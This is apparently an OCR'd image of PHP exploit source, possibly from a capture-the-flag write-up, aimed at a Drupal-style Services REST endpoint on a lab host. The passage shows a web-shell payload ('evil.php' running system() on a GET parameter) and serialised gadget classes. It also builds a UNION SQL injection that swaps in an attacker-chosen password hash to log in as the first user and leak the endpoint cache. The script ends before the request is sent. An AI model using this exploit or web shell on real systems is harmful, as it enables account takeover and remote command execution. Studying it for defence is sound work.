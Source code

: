 ```php
define('ACTION', 'login');

$url = 'http://10.10.10.9';
$endpoint_path = '/rest';
$endpoint = 'rest_endpoint';
$file = [
    'filename' => 'evil.php',
    'data' => '<?php echo(system($_GET["cmd"])); ?>'
];
$browser = new Browser($url . $endpoint_path);
# Stage 1: SQL Injection
class DatabaseCondition
{
    protected $conditions = [
        "#conjunction" => "AND"
    ];
    protected $arguments = [];
    protected $changed = false;
    protected $queryPlaceholderIdentifier = null;
    public $stringVersion = null;
    public function __construct($stringVersion=null)
    {
        $this->stringVersion = $stringVersion;
        if(!isset($stringVersion))
        {
            $this->changed = true;
            $this->stringVersion = null;
        }
    }
}
class SelectQueryExtender {
    # Contains a DatabaseCondition object instead of a SelectQueryInterface
    # so that $query->compile() exists and (string) $query is controlled by us.
    protected $query = null;
    protected $uniqueIdentifier = QID;
    protected $connection;
    protected $placeholder = 0;
    public function __construct($sql)
    {
        $this->query = new DatabaseCondition($sql);
    }
}

$cache_id = "services:$endpoint:resources";
$sql_cache = "SELECT data FROM {cache} WHERE cid='$cache_id'";
$password_hash = '$S$D2NH.6IZNb1vbZEV1F0S9fqIz3A0Y1xueKznB8vWrMsnV/nrTpnd';

# Take first user but with a custom password
# Store the original password hash in signature_format, and endpoint cache
# in signature
$query =
    "0x3a) UNION SELECT ux.uid AS uid, " .
    "ux.name AS name, '$password_hash' AS pass, " .
    "ux.mail AS mail, ux.theme AS theme, ($sql_cache) AS signature, " .
    "ux.pass AS signature_format, ux.created AS created, " .
    "ux.access AS access, ux.login AS login, ux.status AS status, " .
    "ux.timezone AS timezone, ux.language AS language, ux.picture " .
    "AS picture, ux.init AS init, ux.data AS data FROM {users} ux " .
    "WHERE ux.uid<>(0"
;

$query = new SelectQueryExtender($query);
$data = ['username' => $query, 'password' => 'ouvreboite'];
```